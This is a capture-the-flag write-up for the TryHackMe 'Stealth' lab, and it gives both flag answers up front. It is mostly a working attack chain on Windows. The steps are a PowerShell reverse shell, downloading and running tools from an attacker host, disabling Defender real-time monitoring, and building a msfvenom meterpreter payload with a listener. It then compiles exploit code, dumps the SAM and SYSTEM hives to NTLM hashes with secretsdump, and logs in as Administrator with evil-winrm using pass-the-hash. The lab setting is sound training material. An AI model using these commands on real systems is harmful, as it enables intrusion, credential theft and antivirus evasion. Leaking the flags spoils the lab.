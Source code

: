 # Stealth 

+ What is the content of the user level flag? `THM{1010_EVASION_LOCAL_USER}`
+ What is the content of the root level flag? `THM{101011_ADMIN_ACCESS}`


+ Open the browser and create some payload to reverse shell using `powershell` with extention `ps1`
   - The shell will checking the virus code
+ Listen for revershell 
   - After upload `dodol.ps1` and got the revershell checking the file content
   ```powershell
   SHELL> Get-Content passwords.txt
   ### XAMPP Default Passwords ###
   1) MySQL (phpMyAdmin):
      User: root
      Password:
      (means no password!)

   2) FileZilla FTP:

      [ You have to create a new user on the FileZilla Interface ]

   3) Mercury (not in the USB & lite version):

      Postmaster: Postmaster (postmaster@localhost)
      Administrator: Admin (admin@localhost)
      User: newuser
      Password: wampp

   4) WEBDAV:
      User: xampp-dav-unsecure
      Password: ppmax2011
      Attention: WEBDAV is not active since XAMPP Version 1.7.4.
      For activation please comment out the httpd-dav.conf and
      following modules in the httpd.conf
      LoadModule dav_module modules/mod_dav.so
      LoadModule dav_fs_module modules/mod_dav_fs.so
      Please do not forget to refresh the WEBDAV authentification (users and passwords).
   SHELL>

   Invoke-WebRequest -Uri "http://10.4.37.160:83/winPEASany_ofs.exe" -OutFile "C:\Users\evader\Downloads"
   wget "http://10.4.37.160:83/winPEASany_ofs.exe" -outfile "wp.exe"
   Start-Process -FilePath "C:\Users\evader\Downloads\wp.exe"
   ```
+ Check anti Virus `Get-MpComputerStatus`
+ Turn off AV `Set-MpPreference -DisableRealtimeMonitoring $true`
   - Checking the file using Get-ChildItem
   ```powershell
   Get-ChildItem | Where-Object { $_.Name -match '[a-z].txt$' }
   Get-ChildItem -Recurse | Where {$_.Name -match '*flag*$'} | Select Fullname 
   Get-ChildItem -Recurse -Filter "*root*"
   ```

+ Our shell dodol.ps1 is not working, upload the new one `getShell.ps1` so we create the new payload using msfvenom
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o rev.exe -e x64/zutto_dekiru
   ```
   - This will generate `rev.exe` and try execute that using our shell before that listen on our kali using msfconsole
   ```bash
   msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.4.37.160; set lport 1235; exploit"
   ```

   - After got reverseshell try upload file to target machine
   ```bash
   curl http://10.4.37.160:83/exploit.cs -o exploit.cs
   curl http://10.4.37.160:83/backup.cs -o backup.cs
   ```
   - Compile our code using NET Framework 32 bit
   ```powershell
   C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe exploit.cs -nowarn:1691,618
   C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe backup.cs
   ```

   - Compile our code using NET Framework 64 bit
   ```powershell
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe exploit.cs -nowarn:1691,618
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe backup.cs
   ```
   - Try execute our exploit `.\exploit.exe backup.exe`
   - This will generate `system.bak` and `sam.bak`
   - Download the file using wget 
   ```bash
   wget http://10.10.2.227:8080/system.bak
   wget http://10.10.2.227:8080/sam.bak
   ```

   - Try to dump the hash file using `impacket-secretdump` from file we download
   ```bash
   ┌──(lodwig㉿kali)-[~/Documents/THM/Stealth]
   └─$ impacket-secretsdump -sam sam.bak -system system.bak local
   Impacket v0.11.0 - Copyright 2023 Fortra

   [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
   [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dfe3378335d43f9764e581b856a662a:::
   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
   evader:1022:aad3b435b51404eeaad3b435b51404ee:09de49072c2f43db1d7d8df21486bc73:::
   [*] Cleaning up...
   ```

   - After got the Administrator hash file `2dfe3378335d43f9764e581b856a662a` Remote to target using `evil-winrm` and the hash 
   ```bash
   ┌──(lodwig㉿kali)-[~/Documents/THM/Stealth]
   └─$ evil-winrm -u Administrator -H 2dfe3378335d43f9764e581b856a662a -i 10.10.2.227                  
   Evil-WinRM shell v3.5                                
   Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
   Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
   Info: Establishing connection to remote endpoint
   *Evil-WinRM* PS C:\Users\Administrator\Documents>
   ```
   - Chek for the flag.txt
   - User Flag Need to delete the log file on `c:\xampp\htdocs\` to activate the URL from decoded base64 
   - Root Flag on the `C:\Users\Administrator\Desktop`





